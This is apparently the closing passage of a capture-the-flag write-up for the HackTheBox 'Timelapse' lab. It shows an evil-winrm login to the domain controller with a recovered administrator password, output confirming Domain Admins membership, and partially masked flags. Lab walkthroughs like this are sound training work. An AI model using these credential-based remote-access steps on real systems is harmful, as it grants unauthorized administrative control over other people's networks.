 ## Shell as Root

Now we have the password of local admin account of domain computer DC01. Let's log into it and using evil-winrm

```powershell
evil-winrm -u administrator -p '3x5Ir9L7;Gd$6i62d,f3A+9w' -i timelapse.htb -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

After log into it we can see that we are in a group of **domain admin** .

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> net user administrator
User name                    Administrator
Full Name
Comment                      Built-in account for administering the computer/domain
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/20/2024 7:47:48 AM
Password expires             Never
Password changeable          1/21/2024 7:47:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2022 5:33:53 PM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Enterprise Admins    *Group Policy Creator
                             *Domain Users         *Schema Admins
                             *Domain Admins
```
# Flags

 User : eedd2ab98feed....e25e29d32f1c5e5
 
 Root : a7147a3380fb2....a6e5f2f1d7385e1b
 
# Happy Hacking ❤

